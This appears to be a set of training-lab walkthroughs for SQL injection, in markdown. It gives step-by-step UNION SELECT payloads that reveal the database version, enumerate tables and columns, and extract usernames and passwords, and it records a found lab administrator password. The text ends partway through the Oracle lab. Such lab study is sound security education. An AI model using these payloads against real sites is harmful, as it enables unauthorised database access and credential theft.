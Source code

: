 ## Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:

	'+UNION+SELECT+'abc','def'#
3. Use the following payload to display the database version:

	'+UNION+SELECT+@@version,+NULL#

## Lab: SQL injection attack, listing the database contents on non-Oracle databases

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:

	'+UNION+SELECT+'abc','def'--
3. Use the following payload to retrieve the list of tables in the database:

	'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:

	'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:

	'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
Find the password for the administrator user, and use it to log in.

Found Following:

	administrator
	bpczg2saykfcbedstoff

## Lab: SQL injection attack, listing the database contents on Oracle

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:

	'+UNION+SELECT+'abc','def'+FROM+dual--
3. Use the following payload to retrieve the list of tables in the database:

	'+UNION+SELECT+table_name,NULL+FROM+all_tables--
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:
